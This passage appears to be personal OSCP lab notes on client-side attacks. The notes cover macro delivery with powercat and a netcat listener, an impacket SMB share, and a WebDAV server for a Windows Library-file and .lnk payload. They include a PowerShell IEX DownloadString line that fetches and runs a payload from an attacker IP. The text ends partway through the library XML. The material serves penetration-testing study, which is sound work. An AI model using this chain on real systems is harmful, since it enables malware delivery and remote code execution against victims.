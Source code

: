 ```
```

then:
1. download powercat.exe onto local machine
2. start python server
3. start nc listening
4. wait for macro to execute

useful command copy string to clipboard xfreerdp
```
echo IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/payload") | Set-Clipboard
```

use impacket-smbserver to set up a share on kali to share files

```
impacket-smbserver share /home/kali/offsec/oscp -smb2support -user user -password password
```

then on windows connect to share

```
net use X: \\$ip\share /u:user password
```

### Windows Library Files

.Library-ms extension
payload in .lnk file
WebDav share -> allows uses to access and manage files on remote servers
use wsgidav to setup local http server, can confirm it's running by going to 127.0.0.1 in browser

```
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

example template https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@shell32.dll,-34575</name>
    <ownerSID>S-1-5-21-379071477-2495173225-776587366-1000</ownerSID>
    <version>1</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1002</iconReference>
    <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription publisher="Microsoft" product="Windows">
            <description>@shell32.dll,-34577</description>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>knownfolder:{FDD39AD0-238F-46AF-ADB4-6C85480369C7}</url>
                <serialized>MBAAAEAFCAAA...MFNVAAAAAA</serialized>
            </simpleLocation>
        </searchConnectorDescription>
        <searchConnectorDescription publisher="Microsoft" product="Windows">
            <description>@shell32.dll,-34579</description>
            <isDefaultNonOwnerSaveLocation>true</isDefaultNonOwnerSaveLocation>
            <simpleLocation>
                <url>knownfolder:{ED4824AF-DCE4-45A8-81E2-FC7965083634}</url>
                <serialized>MBAAAEAFCAAA...HJIfK9AAAAAA</serialized>
            </simpleLocation>
        </searchConnectorDescription>
```